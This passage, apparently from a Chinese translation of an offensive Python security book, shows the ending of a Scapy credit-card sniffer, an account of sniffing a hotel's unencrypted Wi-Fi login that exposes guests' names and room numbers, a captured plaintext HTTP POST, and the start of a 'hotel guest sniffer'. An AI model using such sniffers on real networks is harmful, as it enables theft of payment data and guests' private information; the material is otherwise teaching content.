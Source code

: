 ```py
        print parser.usage
        exit(0)
    else:
        conf.iface = options.interface
    try:
        print('[*] Starting Credit Card Sniffer.')
        sniff(filter='tcp', prn=findCreditCard, store=0)
    except KeyboardInterrupt:
        exit(0)
if __name__ == '__main__':
    main() 
```

显然，我们不打算盗取任何人的信用卡数据。事实上，这个攻击的无线黑客小偷被关了 20 年。但是希望你意识到这种攻击相对比较交单没有一般人为的那么复杂。在下一节中，我们将演示一个单独的情景，我们将攻击一个未加密的无线网络并盗取私人信息。

## 嗅探旅馆客人

大多数旅馆提供公开的无线网络。通常这些网络没有加密也缺乏任何企业忍着或者加密控制。本节将验证，及行 Python 代码就能渗透利用这个情况，导致灾难性的公共信息泄露。 最近，我呆在一家提供无线连接的旅馆当客人。当连接到无线网络之后，我的浏览器指向一个网页要求登陆这个网络。网络凭证包含我的姓名和房间号，提供此信息后，我的浏览器发布了一个未加密的 HTTP 页面返回到服务器接受认证 cookie。检查这个初始的 HTTP 提交，显示了一些有趣的东西。

我注意到一个字符串`PROVIDED_LAST_NAME=OCONNOR&PROVIDED_ROOM_NUMBER=1337`。 明文传输到旅馆服务器的包含我的姓名和房间号码。服务器没有试图保护这些信息，我的浏览器简单的发送这些透明的信息。对于这个特殊的酒店，客户的姓名和房间号被用来点餐，按摩服务甚至是购买礼品，所以你可以想到酒店的客户不想黑客得到他们的私人信息。

```py
POST /common_ip_cgi/hn_seachange.cgi HTTP/1.1
Host: 10.10.13.37
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_1)
AppleWebKit/534.48.3 (KHTML, like Gecko) Version/5.1 Safari/534.48.3
Content-Length: 128
Accept: text/html,application/xhtml+xml,application/
xml;q=0.9,*/*;q=0.8
Origin:http://10.10.10.1
DNT: 1
Referer:http://10.10.10.1/common_ip_cgi/hn_seachange.cgi
Content-Type: application/x-www-form-urlencoded
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: keep-alive
SESSION_ID= deadbeef123456789abcdef1234567890 &amp;RETURN_
MODE=4&amp;VALIDATION_FLAG=1&amp;PROVIDED_LAST_NAME=OCONNOR&amp;PROVIDED_ROOM_
NUMBER=1337 
```

我们现在可以使用 Python 从酒店用户哪里捕获信息。开始是一个很简单的 Python 嗅探器。首先，我们将确认我们捕获流量的接口，接着，我们用`sniff()`函数嗅探监听流量，注意这个函数过滤，只监听 TCP 流量数据包，我们将函数命令为`findGuest()`。

```py
conf.iface = "mon0"
try:
    print "[*] Starting Hotel Guest Sniffer."
    sniff(filter="tcp", prn=findGuest, store=0)
except KeyboardInterrupt:
exit(0) 
```
